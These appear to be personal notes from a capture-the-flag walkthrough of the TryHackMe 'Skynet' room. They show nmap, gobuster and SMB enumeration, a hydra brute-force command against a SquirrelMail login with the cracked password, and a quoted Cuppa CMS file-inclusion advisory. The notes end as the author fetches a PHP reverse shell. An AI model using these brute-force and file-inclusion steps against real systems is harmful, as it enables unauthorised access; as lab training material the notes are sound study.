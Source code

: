 kali@kali:~/oscptraining/tryhackme$ nmap -sV -sC -o nmap 10.10.85.80
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-24 22:16 EDT
Nmap scan report for 10.10.85.80
Host is up (0.33s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE TOP PIPELINING SASL UIDL CAPA RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ID LOGINDISABLEDA0001 SASL-IR more post-login have capabilities listed OK Pre-login LITERAL+ IDLE ENABLE LOGIN-REFERRALS IMAP4rev1
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2020-10-24T21:17:36-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required   

current possible directory with gobuster
/admin (Status: 301)
/config (Status: 301)
/css (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/squirrelmail (Status: 301)

seems like we are really going down the rabbit hole, let's go back to what we have seen from the nmap result.
we could see that imap and pop3 ports are open.

taking some reference from google
IMAP and POP3 are the two most commonly used Internet mail protocols for retrieving emails. Both protocols are supported by all modern email clients and web servers. While the POP3 protocol assumes that your email is being accessed only from one application, IMAP allows simultaneous access by multiple clients.

some really good guide on smb enum
https://0xdf.gitlab.io/2018/12/02 pwk-notes-smb-enumeration-checklist-update1.html


kali@kali:~/oscptraining/tryhackme/Skynet$ smbmap -H 10.10.85.80
[+] Guest session       IP: 10.10.85.80:445     Name: 10.10.85.80                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))

There's a share called "anonymous" that has read access. Lets try connecting to investigate.

kali@kali:~/oscptraining/tryhackme/Skynet$ smbclient //10.10.85.80/anonymous -u anonymous 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 18 00:41:20 2019
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019
  books                               D        0  Wed Sep 18 00:40:06 2019

                9204224 blocks of size 1024. 5370044 blocks available

sidetracked for quite a while as i found full of machine learning related books in the books dir, got them copied out to my host XD haha

the attention.txt file
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

going into logs
log1 seems like a list of possible usernames

let's try to use hydra for logging in, got a great help from this page
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/

basically just do the following
Change the <Login page> this value has to start with “/” backspace.
Change <Request body> with the format from the page. We do need to modify the username and password. Replace the failed username with ^USER^ and the failed password with ^PASS^. This change will allow hydra to substitute the values.
Change the <Error Message> with the failed login error message.
Change the <IP Address> with either an IP address or hostname.
Change the <User> with either username or username list.
Change the <Password> with either a password or password list.

Layout of command: hydra -L <USER> -P <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”

hydra -l milesdyson -P log1.txt 10.10.213.235 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."

now we get the credentials as 
login: milesdyson   password: cyborg007haloterminator

kali@kali:~/oscptraining/tryhackme/Skynet$ smbclient //10.10.213.235/milesdyson -U milesdyson
Enter WORKGROUP\milesdyson's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.213.235\milesdyson\


side tracking to download shit for fun 
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget notes
getting file \notes\3.01 Search.md of size 65601 as 3.01 Search.md (17.9 KiloBytes/sec) (average 867.4 KiloBytes/sec)
getting file \notes\4.01 Agent-Based Models.md of size 5683 as 4.01 Agent-Based Models.md (4.2 KiloBytes/sec) (average 846.1 KiloBytes/sec)
getting file \notes\2.08 In Practice.md of size 7949 as 2.08 In Practice.md (5.7 KiloBytes/sec) (average 825.2 KiloBytes/sec)
getting file \notes\0.00 Cover.md of size 3114 as 0.00 Cover.md (2.1 KiloBytes/sec) (average 803.9 KiloBytes/sec)

(base) mycomp:kali teolw$ scp kali@IP:/home/kali/oscptraining/tryhackme/Skynet/morefreenotes.zip /Users/teolw/Documents/kali
kali@IP's password: 
morefreenotes.zip                             100%  370KB  64.3MB/s   00:00    


kali@kali:~/oscptraining/tryhackme/Skynet$ cat important.txt
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

seems like there's a special directory /45kra24zxs28v3yd, lets do a gobuster on it
kali@kali:~/oscptraining/tryhackme/Skynet$ gobuster dir -u 10.10.240.119/45kra24zxs28v3yd  -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

/administrator
we could see that it is running on cuppa cms, so let's try searching if there's any exploit

# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /          
  / XXXXXX /
 (________(            
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22: 
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------
    
seems like we must do a php code injection, so let's use php reverse shell
lets get this
kali@kali:~/oscptraining/tryhackme/Skynet$ wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php













